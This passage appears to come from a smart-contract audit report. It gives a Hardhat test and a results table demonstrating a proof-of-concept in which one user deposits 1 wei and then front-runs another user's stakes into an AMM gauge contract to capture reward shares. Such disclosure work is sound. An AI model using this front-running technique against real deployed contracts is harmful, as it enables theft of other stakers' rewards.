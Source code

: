             // HERE IS WHERE THE SIMULATION IS PERFORMED
            let simulationTimes = 2;
            let withOneWeiDeposit = true;

            if (withOneWeiDeposit) {
                // Alice deposits first
                console.log("Alice Deposits 1wei")
                let firstUserDeposit = ethers.utils.parseEther("1");
                await stake(alice, 1);
            }

            for (let index = 1; index <= simulationTimes; index++) {
                console.log(" ")
                console.log(`Loop number ${index}`);
                console.log(" ")

                console.log("A day passes until Bob decides to deposit")
                await ethers.provider.send("evm_increaseTime", [1 * 24 * 60 * 60]); // 1 days

                console.log(" ")
                console.log("She scans that Bob is about to stake 10. So decides to frontrun him.")
                console.log("Alice Frontruns")
                let frontrunAmount = ethers.utils.parseEther("10");
                await stake(alice, frontrunAmount);

                console.log(" ")
                console.log("Bob stakes 10 tokens")
                await stake(bob, frontrunAmount)

                // A few days pass
                await ethers.provider.send("evm_increaseTime", [1 * 24 * 60 * 60]); // 2 days
                // The pool is checkpointed
                await this.ammgauge.poolCheckpoint();
                console.log("After 1 day the pool is checkpointed")
                await updateStates()

            }
        })

The simulation was both made for the attacked and non attacked situations.
The values that are shown represent how the contract updates them (the `totalStaked` variable is 0 when first Alice calls the stake function after `_userCheckpoint()` rans)

#### WITH 1WEI STAKE (ATTACK)

| time |                Situation               |  totalStaked  | Alice Shares | Bob Shares |
| :--: | :------------------------------------: | :-----------: | :----------: | :--------: |
|  0-  |          First poolCheckpoint          |       0       |       0      |      0     |
|  0+  |           Alice Deposits 1wei          |       0       |       0      |      0     |
|   1  |       Alice frontruns Bob @ 10eth      |      1wei     |       0      |      0     |
|   2  |         Bob 10eth txn is mined         |  10eth + 1wei |     86.4     |      0     |
|   3  | 1 day later poolCheckpoint() is called | 20eth + 1 wei |     86.4     |      0     |
|   4  |        Alice frontruns Bob again       | 20eth + 1 wei |     86.4     |      0     |
|   5  |         Bob 10eth txn is mined         |  30eth + 1wei |     172.8    |      0     |
|   6  | 1 day later poolCheckpoint() is called |  40eth + 1wei |     172.8    |    86.4    |
